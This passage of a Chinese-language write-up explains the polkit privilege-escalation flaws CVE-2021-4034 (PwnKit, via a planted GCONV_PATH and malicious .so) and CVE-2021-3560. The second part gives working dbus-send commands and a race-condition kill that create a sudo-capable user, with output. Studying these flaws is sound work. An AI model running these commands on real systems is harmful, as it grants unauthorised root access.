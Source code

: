 pkexec 的代码中，在上面的越界写入代码后很快就会清除所有环境变量，这就让我们越界写环境变量的操作失去作用了。幸运的是，在清除前 `validate_environment_variable()` 会被调用，这个函数如果检测到 `SHELL` 环境变量不合法就会调用 `g_printerr()` 函数。

`g_printerr()` 默认使用 UTF-8 编码，但设置了环境变量 `CHARSET` 时会使用指定的编码输出，其中的编码转换过程会调用 glibc 的 `iconv_open()` 函数。这个函数转换编码的方式是通过加载动态链接库（.so 文件）实现的，默认用的是 `/usr/lib/gconv/gconv-modules`。当然，我们也可以通过 `GCONV_PATH` 环境变量来改成自己的目录。

#### 2. 如何重新引入 `GCONV_PATH`？

PoC 中首先创建了一个名为 `GCONV_PATH=.` 的目录，随后在目录下创建名为 `pwnkit` 的文件并赋予可执行权限，这样文件路径就拼接成了 `GCONV_PATH=./pwnkit` 这个字符串。

然后创建 `pwnkit` 目录并准备 `pwnkit/gconv-modules`（用于后续根据字符集加载 .so 文件），再将获取 root shell 的恶意代码编译为 `pwnkit/pwnkit.so`，最后通过 `execve` 向 pkexec 传入空参数数组与一系列环境变量。

pkexec 首先会读取 `argv[1]` 也就是 `envp[0]` 的值到 `path` 变量，这里是 `pwnkit`。因为 `path` 不以 `/` 开头，所以会尝试在 PATH 中查找该程序。由于我们已经设置了 PATH，所以就会到名为 `GCONV_PATH=.` 的这个目录下查找，就会找到我们刚才 `touch` 并 `chmod` 过的 `pwnkit` 文件，实际上是一个空的可执行文件。此时程序的完整路径 `GCONV_PATH=./pwnkit` 就会被写入到 `argv[1]` 也就是 `envp[0]` 中，这样就重新引入了不安全环境变量 `GCONV_PATH`。

最后，非法的 `SHELL` 触发 `g_printerr()`，后者调用 `iconv_open()`，根据 `CHARSET` 和 `GCONV_PATH` 就会定位到 `pwnkit/gconv-modules` 并加载其中的 `pwnkit.so`，最终 `gconv_init()` 和 `gconv()` 被执行。

> 参考资料：[cve-2021-4034/pwnkit.txt](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)

### CVE-2021-3560

在这个漏洞中，我们需要通过 dbus-daemon 向 account-daemon 发送一条创建 sudo 用户的消息，但需要在消息被 polkit 处理之前摧毁这条消息。这会使得 polkit 向 dbus-daemon 进行查询时，dbus-daemon 找不到对应的消息返回错误码，然后这个错误码会被 polkit 替换为 0，而 0 恰好对应 root 用户导致 polkit 鉴权必定成功。

首先发送 dbus 消息，使其调用 Accounts 的 CreateUser 方法创建用户，并设置 sudo 权限（`int32:1`）：

```bash
$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:merc string:"Description" int32:1
```

随后再次发送 dbus 消息设置用户密码，注意替换下面的 `<USER_ID>` 和 `<PASSWORD_HASH`：

```bash
$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User<USER_ID> org.freedesktop.Accounts.User.SetPassword string:'<PASSWORD_HASH>' string:'Password hint'
```

由于我们需要在 polkit 处理消息前摧毁这条消息，需要用到条件竞争的方法。首先用 `time` 命令测试第一条命令执行所需要的时间，我这里大约是 0.01 秒。然后我们在命令执行到大约一半的时候杀死进程即可：

```bash
$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:merc string:"Description" int32:1 & sleep 0.005s; kill $!
```

验证结果，新用户 ID 为 1000：

```bash
$ id merc
uid=1000(merc) gid=1000(merc) groups=1000(merc),27(sudo)
```
